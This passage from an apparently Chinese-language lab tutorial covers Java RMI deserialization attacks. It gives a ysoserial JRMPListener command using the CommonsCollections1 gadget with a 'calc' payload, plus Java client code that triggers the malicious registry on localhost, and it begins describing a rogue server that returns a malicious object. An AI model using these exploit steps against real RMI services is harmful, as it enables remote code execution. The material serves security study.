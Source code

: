 

```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 12345  CommonsCollections1 'calc'

```

然后使用客户端去访问，其实这里展示的效果就是使用了客户端访问了带有恶意代码的注册中心。



```
package rmi_injection_labs1.client;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class ClientAttackByCC1 {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.list();
    }
}

```

![image-20241125194611814](https://images.cnblogs.com/cnblogs_com/erosion2020/2432063/o_241125134825_rmi12.png)


这里即使调用unbind也会触发反序列化，推测是在之前传输一些约定好的数据时进行的序列化和反序列化。所以实际上这五种方法都可以达到注册中心反打客户端或服务端的目的


### 服务端攻击客户端


服务端攻击客户端，大抵可以分为以下两种情景。


1. 服务端返回参数为Object对象
2. 远程加载对象


在RMI中，远程调用方法传递回来的不一定是一个基础数据类型（String、int），也有可能是对象，当服务端返回给客户端一个对象时，客户端就要对应的进行反序列化。所以我们需要伪造一个服务端，当客户端调用某个远程方法时，返回的参数是我们构造好的恶意对象。这里以cc1为例


### 服务端cc1攻击


**User接口**



```
package rmi_injection_labs1.service;

import java.rmi.RemoteException;
public interface User extends java.rmi.Remote {
    public Object getUser() throws RemoteException;
}

```

**服务端**
